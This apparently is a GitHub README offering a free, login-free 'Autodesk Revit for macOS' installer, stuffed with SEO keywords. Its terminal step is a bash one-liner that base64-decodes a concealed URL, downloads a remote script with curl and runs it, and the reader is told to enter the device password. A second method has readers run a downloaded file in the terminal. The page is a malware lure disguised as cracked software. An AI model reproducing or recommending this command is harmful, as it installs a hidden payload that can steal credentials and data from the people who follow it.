 # Autodesk Revit for macOS 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/Revit)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 **What You Unlock**

   🏗️ Full Building Information Modeling (BIM) tools  
   📐 Architectural design, MEP, and structural modules  
   🧩 Plugin & script compatibility  
   💻 Optimized for Apple Silicon (M1/M2/M3)  
   🔌 No Autodesk ID or license login required  
   📁 Project sync support (local only)

🖼 **Preview**

![Revit on macOS via virtualization](https://www.parallels.com/blogs/app/uploads/2018/03/Revit-On-Mac-Win-10.png)  


![Detailed BIM modeling in Revit](https://measuredsurvey365.co.uk/wp-content/uploads/2021/02/1-1.png)  


![Revit UI and architecture tools](https://i.ytimg.com/vi/RgHQVlHa75s/maxresdefault.jpg)  


🔍 **SEO Keywords**

revit mac, revit for macbook, revit architecture for mac, revit and mac, revit in mac, revit mac download, autodesk revit for mac, revit software for mac, revit macos, autocad revit for mac, revit autodesk for mac, revit mac os x, revit osx, revit software mac, revit on mac m1, revit on mac m2, revit for mac m3, revit apple silicon, run revit on mac, revit virtualization mac, revit full version mac, revit offline mac installer, revit macbook pro, revit student for mac, revit architecture suite mac


